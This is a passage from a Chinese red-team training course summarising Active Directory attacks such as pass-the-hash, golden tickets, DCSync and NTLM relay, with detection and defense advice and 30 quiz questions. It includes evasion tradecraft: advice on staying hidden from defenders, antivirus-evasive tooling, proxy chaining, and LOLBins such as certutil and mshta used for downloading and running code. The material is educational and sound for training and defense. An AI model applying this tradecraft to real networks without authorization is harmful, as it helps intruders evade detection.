> 2. **协议可利用**：微软设计的协议本身有可利用的特性
>    - NTLM可以用Hash直接认证 → PtH
>    - Kerberos的krbtgt密钥可伪造TGT → 黄金票据
>    - DRS协议可以复制数据 → DCSync
>
> 3. **信息可利用**：你每多控一台机器，就有更多攻击资源
>    - 更多凭据、更多网络路径、更多信任关系
>    - 这就是为什么内网渗透是"正反馈"的
>
> **护网红队最终要交付的不是"打进去"而是"证明能打多深"。**

---

## 📚 综合案例3：护网域渗透实战经验

### 经验一：信息收集是基础

在护网行动中，
信息收集的质量
直接决定了后续攻击的成功率。

**实战建议：**
1. 不要一上来就打打杀杀，先摸清楚环境
2. 多维度收集信息：网络、系统、应用、人员
3. BloodHound一定要跑，而且要跑全量
4. 信息收集可以和其他操作并行，节省时间
5. 做好信息整理，建立知识库

### 经验二：攻击路径要多准备

不要把所有希望
都寄托在一条攻击路径上。

**实战建议：**
1. 同时准备多条攻击路径
2. 一条路径走不通，立刻切换下一条
3. 从不同维度尝试：漏洞、配置、人
4. 保持耐心，不要急
5. 善于总结失败经验

### 经验三：隐蔽很重要

护网行动中，
被蓝队发现就可能被切断。

**实战建议：**
1. 尽量用系统自带工具（Living off the land）
2. 操作要慢，不要大量扫描
3. 模拟正常用户的行为
4. 尽量在工作时间操作
5. 注意操作频率和时间间隔
6. 工具尽量做免杀
7. 重要操作前先想会不会触发告警

### 经验四：凭据管理要规范

实战中很容易
凭据越拿越多，
最后自己都乱了。

**实战建议：**
1. 建立凭据管理表
2. 记录每个凭据的来源、权限、用途
3. 定期整理，去重去无效
4. 区分本地凭据和域凭据
5. 高权限凭据要特别保护

### 经验五：团队协作很重要

护网不是一个人的战斗，
团队协作非常重要。

**实战建议：**
1. 分工明确：信息收集、Web渗透、内网渗透、社工
2. 实时共享信息和进展
3. 遇到问题及时求助
4. 做好文档记录
5. 统一指挥，不要各自为战

### 经验六：心态要好

渗透测试经常会遇到
各种挫折和瓶颈。

**实战建议：**
1. 保持耐心，不要急躁
2. 遇到瓶颈时先休息一下，换个思路
3. 不要钻牛角尖
4. 相信方法总比困难多
5. 享受过程，从每一次失败中学习

---

## 📚 综合案例4：域环境检测与防御

### 4.1 Kerberos攻击检测与防御

**AS-REP Roasting检测：**
- 监控4768事件（Kerberos身份验证票证请求）
- 查找没有预认证的成功TGT请求
- 定期检查域内设置了 `DONT_REQ_PREAUTH` 的用户

**Kerberoasting检测：**
- 监控4769事件（Kerberos服务票证请求）
- 查找来自同一IP的大量服务票据请求
- 监控异常的RC4加密票据请求

**黄金票据检测：**
- 监控4624事件（登录）中的异常登录
- 检查TGT的生命周期（黄金票据通常有效期很长）
- 检查krbtgt账户的使用情况
- 定期重置krbtgt密码（最好重置两次）

**防御措施：**
- 启用强密码策略
- 限制服务账号的权限
- 定期轮换服务账号密码
- 启用Kerberos预认证
- 监控异常的Kerberos请求
- 定期重置krbtgt密码

### 4.2 委派攻击检测与防御

**检测方法：**
- 定期清查域内配置了委派的账户
- 监控非约束委派的机器上的异常票据
- 监控异常的S4U请求

**防御措施：**
- 尽量不要使用非约束委派
- 使用约束委派代替非约束委派
- 限制配置了委派的账户权限
- 定期审核委派配置
- 保护好配置了委派的机器

### 4.3 DCSync检测与防御

**检测方法：**
- 监控目录复制服务（DRS）的调用
- 监控4662事件（对象访问）中的复制操作
- 定期检查有DCSync权限的账户

**防御措施：**
- 限制DCSync相关权限
- 定期审核域根对象的ACL
- 监控异常的目录复制请求
- 启用高级审计功能

### 4.4 NTLM Relay检测与防御

**检测方法：**
- 监控网络中的LLMNR/NBT-NS欺骗
- 监控异常的NTLM认证
- 监控多台机器的连续登录失败

**防御措施：**
- 禁用LLMNR和NBT-NS
- 启用SMB签名
- 启用LDAP签名
- 使用EPA（增强保护身份验证）
- 限制管理员登录范围
- 使用Windows Defender Credential Guard

### 4.5 整体防御建议

1. **最小权限原则** - 只给用户必要的权限
2. **定期安全审计** - 定期检查AD配置、权限、组策略
3. **强密码策略** - 密码复杂度、定期更换、禁止复用
4. **多因素认证** - 关键账户启用MFA
5. **补丁管理** - 及时安装安全补丁
6. **日志监控** - 集中日志收集和分析
7. **网络分段** - 合理划分网络区域
8. **端点防护** - 部署EDR/XDR
9. **安全培训** - 提高员工安全意识
10. **红蓝对抗** - 定期进行攻防演练

---

## 📚 综合案例5：红蓝对抗中的域渗透技巧

### 5.1 红队视角

**技巧一：慢就是快**

很多新人刚入行，
一上来就疯狂扫描、
批量尝试，
结果很快被蓝队发现，
IP被封，账号被锁。

真正的红队操作
应该是**慢工出细活**。

- 先做信息收集，摸清环境
- 选择最优攻击路径
- 每一步都想好后果
- 尽量模拟正常行为
- 减少不必要的操作

**技巧二：Living off the land**

尽量使用系统自带的工具，
减少上传工具的概率。

常用的LOLBins：
- certutil - 下载文件、编码解码
- bitsadmin - 下载文件
- mshta - 执行HTML应用
- regsvr32 - 执行脚本
- wmic - WMI操作
- powershell - 脚本执行
- cscript/wscript - VBS/JScript执行

**技巧三：善用代理和隧道**

不要直接用自己的IP操作，
尽量通过跳板机、代理、隧道。

- 多跳代理，隐藏真实IP
- 使用不同协议的隧道
- 定期更换出口IP
- 模拟正常的网络流量

**技巧四：凭据为王**

在内网中，
凭据比漏洞更重要。

- 尽量多收集凭据
- 哈希、明文、票据都要
- 凭据可以横向移动
- 凭据可以维持访问
- 一个高权限凭据可能直接结束战斗

### 5.2 蓝队视角

**技巧一：监控关键行为**

不要什么都监控，
重点监控关键行为。

关键监控点：
- 域管理员登录异常
- DCSync相关操作
- Kerberos异常请求
- 大量SMB连接
- PowerShell可疑脚本
- 注册表敏感位置修改
- 新服务/计划任务创建

**技巧二：建立基线**

不知道正常是什么样，
就不知道什么是异常。

- 建立正常的网络流量基线
- 建立正常的登录行为基线
- 建立正常的系统行为基线
- 定期更新基线

**技巧三：威胁狩猎**

不要只等着告警，
要主动出击。

- 定期进行威胁狩猎
- 假设已经被攻破，寻找痕迹
- 关注最新的攻击手法
- 用红队的思维找漏洞

### 5.3 共同成长

红蓝对抗不是
非此即彼的零和游戏。

红队通过攻击
发现系统的弱点，
蓝队通过防御
提升系统的安全性。

最终目标是一样的：
**提升整体安全水平。**

所以，
红队要感谢蓝队的防守，
蓝队要感谢红队的找漏。

大家一起成长，
才是最好的结果。

---

## ✏️ 综合练习（30道）

### 一、选择题（10题）

1. 以下哪种攻击方法不需要和KDC交互？
   - A. Kerberoasting
   - B. AS-REP Roasting
   - C. 黄金票据
   - D. 约束委派

2. 以下哪个权限是DCSync不需要的？
   - A. DS-Replication-Get-Changes
   - B. DS-Replication-Get-Changes-All
   - C. DS-Replication-Get-Changes-In-Filtered-Set
   - D. Domain Admin

3. 以下哪个工具可以用来做Kerberos票据操作？
   - A. Mimikatz
   - B. Rubeus
   - C. Impacket
   - D. 以上都可以

4. PrintNightmare漏洞出在哪个服务？
   - A. Server服务
   - B. Print Spooler服务
   - C. Workstation服务
   - D. Netlogon服务

5. 以下哪种持久化技术最隐蔽？
   - A. 注册表Run键
   - B. 计划任务
   - C. DCShadow
   - D. 服务后门

6. BloodHound底层使用的是什么数据库？
   - A. MySQL
   - B. MongoDB
   - C. Neo4j
   - D. Redis

7. 以下哪个不是Kerberos认证的步骤？
   - A. AS交换
   - B. TGS交换
   - C. AP交换
   - D. NTLM交换

8. GPP密码使用的加密算法是什么？
   - A. DES
   - B. 3DES
   - C. AES
   - D. RSA

9. 以下哪种攻击利用的是MS-EFSRPC协议？
   - A. Printer Bug
   - B. PetitPotam
   - C. DFSCoerce
   - D. Zerologon

10. AdminSDHolder的默认同步间隔是多久？
    - A. 15分钟
    - B. 30分钟
    - C. 60分钟
    - D. 120分钟

### 二、填空题（10题）

11. Kerberos协议中的KDC包含两个服务：AS和__________。

12. 黄金票据伪造的是__________票据。

13. 白银票据伪造的是__________票据。

14. BloodHound的数据收集端叫做__________。

15. NTLM中继攻击中，常用的两个配合工具是 Responder 和 __________。

16. Zerologon漏洞的CVE编号是__________。

17. PrintNightmare漏洞的CVE编号是CVE-2021-1675和__________。

18. DCSync利用的是__________协议。

19. 活动目录中，保护高权限账户权限的特殊对象叫做__________。

20. 基于资源的约束委派的英文缩写是__________。

### 三、简答题（5题）

21. 简述Kerberos认证的完整流程。

22. 简述黄金票据和白银票据的区别，以及各自的利用条件。

23. 简述DCSync攻击的原理、利用条件和防御方法。

24. 什么是NTLM Relay攻击？它的前提条件是什么？

25. 简述从外网到拿下域控的完整渗透流程。

### 四、论述题（5题）

26. 请设计一个域渗透的测试方案，包括：信息收集、攻击路径、权限维持、痕迹清理等。

27. 请对比分析Kerberos的各种攻击方法（AS-REP Roasting、Kerberoasting、黄金票据、白银票据、MS14-068）的原理、利用条件和检测方法。

28. 作为一名蓝队工程师，你会从哪些方面来防御域渗透攻击？请设计一个多层防御体系。

29. 请分析委派攻击的三种类型（非约束委派、约束委派、基于资源的约束委派）的原理、利用条件和防御方法。

30. 在护网行动中，红队应该注意哪些事项来提高成功率和隐蔽性？请结合实战经验谈谈你的看法。

---

::: tip 高级篇完结
恭喜你！
高级篇到这里就全部结束了！

回顾一下，
我们在高级篇学习了：

**模块十：Metasploit框架**
- 第39章：Metasploit基础入门
- 第40章：Meterpreter深入探索
- 第41章：MSF高级应用
- 第42章：总结与回顾：MSF模块

**模块十一：权限提升**
- 第43章：Windows提权基础
- 第44章：Windows提权进阶
- 第45章：Windows提权高级
- 第46章：Linux提权技术
- 第47章：总结与回顾：提权模块

**模块十二：横向移动**
- 第48章：内网信息收集
- 第49章：哈希传递与票据传递
- 第50章：横向移动技术大全
- 第51章：代理转发与内网穿透
- 第52章：总结与回顾：横向移动模块

**模块十二（续）：域渗透**
- 第53章：活动目录基础
- 第54章：Kerberos协议与攻击
- 第55章：域渗透常用攻击
- 第56章：总结与回顾：域渗透模块 + 高级篇总复习

如果你学到了这里，
说明你已经具备了
内网渗透和域渗透的
核心能力。

但是，
这还不是终点。

下一篇是**大神篇**，
我们会学习更高级的内容：
- 红队攻防框架与Cobalt Strike
- 免杀与对抗技术
- 红队实战演练
- 护网红队全流程

想要成为真正的大神，
就继续加油吧！

我们下一篇见！
:::
